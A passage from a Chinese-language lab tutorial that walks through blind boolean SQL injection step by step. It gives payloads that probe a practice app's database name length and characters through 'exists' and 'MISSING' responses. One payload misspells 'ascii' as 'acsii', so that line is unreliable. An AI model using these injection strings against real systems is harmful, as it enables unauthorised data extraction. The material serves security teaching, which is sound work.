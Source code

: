    ![img](../../img/15618760550344.jpg)

   图 6-5

   

4. 在文本框中输入 `1' and length(database())=1#`，返回结果 `MISSING`，说明当前数据库名长度大于 1 个字符，截图略

   ```
   length(database())      //当前数据库名的长度
   ```

5. 逐个猜测数据库名字长度，直到输入 `1' and length(database())=4#` 时，返回结果 `exists`，说明当前数据库名长度为 4 字符，截图略

6. 在文本框中输入 `1' and ascii(substr(database(),1,1))>97#`，返回结果 `exists`，输入 `1' and acsii(substr(database(),1,1))<122#`，返回结果 `exists`，说明数据库名的第一位字符是小写字母。（小写字母 a 的 ASCII 码为 97，小写字母 z 的 ASCII 码为 122），截图略

   ```
   substr(database(),1,1)       //截取数据库名称，从第一个字符开始截，一共截取1个字符
   ascii()                      //取括号中的字符的 ASCII 码
   ```

7. 通过增加数字 97 来逐步缩小范围，直到输入 `1' and ascii(substr(database(),1,1))>100#`，返回结果 `MISSING`，说明数据库名的第一个字符的 ASCII 码正好是 100，也就是小写字母 `d`，截图略
